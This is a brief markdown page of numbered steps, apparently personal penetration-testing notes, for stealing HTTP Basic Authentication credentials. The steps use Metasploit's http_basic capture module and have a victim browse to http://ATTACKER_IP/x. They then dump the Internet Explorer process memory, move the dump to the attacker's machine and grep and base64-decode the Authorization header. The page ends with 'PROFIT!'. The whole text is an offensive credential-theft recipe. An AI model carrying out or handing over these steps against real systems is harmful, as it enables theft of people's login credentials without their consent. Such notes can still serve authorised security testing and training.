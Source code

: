 # Steps:

#### 1: msfconsole

#### 2: use auxiliary/server/capture/http_basic

#### 3: set uripath x

#### 4: run

#### 5: On target, browse to http://ATTACKER_IP/x

#### 6: taskmgr

#### 7: Right-click "iexplore.exe" in the "Image Name" abd select "Create Dump File"

#### 8: Copy dump file to attacking machine

#### 9: Strings /path/to/dumpfile | grep "Authorization Basic"

#### 10: echo -ne BASE64 STRING | base64 -d

#### 11: PROFIT!
